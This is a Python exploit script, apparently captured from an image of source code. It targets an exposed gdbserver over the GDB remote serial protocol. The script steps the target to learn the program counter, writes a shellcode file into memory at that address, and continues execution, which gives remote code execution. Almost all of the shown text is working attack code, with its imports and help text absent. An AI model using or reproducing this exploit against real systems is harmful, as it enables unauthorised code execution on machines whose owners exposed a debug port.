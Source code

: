 ```

def checksum(s: str) -> str:
    res = sum(map(ord, s)) % 256
    return f'{res:2x}'


def ack(sock):
    sock.send(b'+')


def send(sock, s: str) -> str:
    sock.send(f'${s}#{checksum(s)}'.encode())
    res = sock.recv(1024)
    ack(sock)
    return res.decode()


def exploit(sock, payload: str):
    send(sock, 'qSupported:multiprocess+;qRelocInsn+;qvCont+;')
    send(sock, '!')

    try:
        res = send(sock, 'vCont;s')
        data = res.split(';')[2]
        arch, pc = data.split(':')
    except Exception:
        print('[!] ERROR: Unexpected response. Try again later')
        exit(1)

    if arch == '10':
        print('[+] Found x64 arch')
        pc = binascii.unhexlify(pc[:pc.index('0*')])
        pc += b'\0' * (8 - len(pc))
        addr = hex(struct.unpack('<Q', pc)[0])[2:]
        addr = '0' * (16 - len(addr)) + addr
    elif arch == '08':
        print('[+] Found x86 arch')
        pc = binascii.unhexlify(pc)
        pc += b'\0' * (4 - len(pc))
        addr = hex(struct.unpack('<I', pc)[0])[2:]
        addr = '0' * (8 - len(addr)) + addr

    hex_length = hex(len(payload))[2:]

    print('[+] Sending payload')
    send(sock, f'M{addr},{hex_length}:{payload}')
    send(sock, 'vCont;c')


def main():
    if len(sys.argv) < 3:
        print(help)
        exit(1)

    ip, port = sys.argv[1].split(':')
    file = sys.argv[2]

    try:
        with open(file, 'rb') as f:
            payload = f.read().hex()
    except FileNotFoundError:
        print(f'[!] ERROR: File {file} not found')
        exit(1)
```